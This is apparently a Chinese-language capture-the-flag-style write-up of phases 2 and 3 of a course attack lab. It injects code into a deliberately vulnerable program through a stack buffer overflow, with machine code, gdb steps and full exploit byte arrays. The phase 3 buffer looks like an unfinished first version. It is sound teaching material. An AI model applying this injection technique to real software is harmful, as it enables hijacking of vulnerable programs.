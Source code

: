 得到的机器码为

```asm
0:  48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi
7:  c3                      ret
```

将它写入输入字符串中，`40` 字节后加上它的地址（字符数组的地址）与 `touch2` 的地址。

> *如何获取注入指令的地址？*

注意到，输入的字符串也是存在栈中的，在输入完成之后（执行其它指令之前），它的地址就是栈顶地址。

使用 `gdb` 进入程序，在 `getbuf` 时使用 `print $rsp` 便可获得字符串地址。当然，也可以使用 `x/s $rsp` 测试。

![phase2_pic1](./Screenshots/phase2_pic1.png)

得到 `%rsp` 的值，将它加上注入指令在字符串中的位置（偏移量），便得到注入指令的位置，将它放在串的后面。最简单的情况当然就是指令在字符串的开头，地址正是 `%rsp`。

结构如下

![phase2_pic2](./Screenshots/phase2_pic2.png)

***再次注意小端法！！***

```c
buf[40] = { /* Phase 2 */
    0x48, 0xC7, 0xC7, 0xFA, 0x97, 0xB9, 0x59, 0xC3, /* 这 8 字节为注入指令 */
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, /* 以下 32 字节内容任意 */
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x78, 0xDC, 0x61, 0x55, 0x00, 0x00, 0x00, 0x00, /* 这 8 字节为指令地址 */
    0xBE, 0x17, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, /* 这 8 字节为 touch2 函数的地址 */
}
```

## Phase 3

这次同样需要将 `%rdi` 修改，但是需要改成一个地址，而这个地址指向的是存放有 `cookie` 的字符数组。

指令注入与转移部分保持不变，这次要考虑 `cookie` 数组的存放位置，只要将这个位置（替代 `Phase 2` 中 `cookie` 本身）存入 `%rdi` 中即可。

很显然的，`cookie` 数字直接放在输入串中即可，当然还有结尾的 `'\0'`。

再将串中注入的 `movq` 指令的操作数，从 `cookie` 本身，改为对应的地址。

关于 `cookie` 地址的获取，由于同样是在输入串中，和 `Phase 2` 中指令地址的获取并无不同，只需确保它们在输入串中的位置，和地址的偏移量正确即可。

假设 `cookie` 串在输入串的**下标** `8` 的位置，那么 `movq` 的操作数便是 `%rsp + 8`，输入串末尾的返回地址同理，根据注入指令的位置做适当的偏移即可。

```c
buf[40] = { /* Phase 3 ver.1*/
    0x48, 0xC7, 0xC7, 0x88, 0xDC, 0x61, 0x55, 0xC3, /* 这 8 字节为注入指令 */
    0xFA, 0x97, 0xB9, 0x59, 0x00, 0x00, 0x00, 0x00, /* 这里是 cookie */
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, /* 后续任意 */
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x78, 0xDC, 0x61, 0x55, 0x00, 0x00, 0x00, 0x00, /* 这 8 字节为指令地址 */
    0xBE, 0x17, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, /* 这 8 字节为 touch2 函数的地址 */
}
```
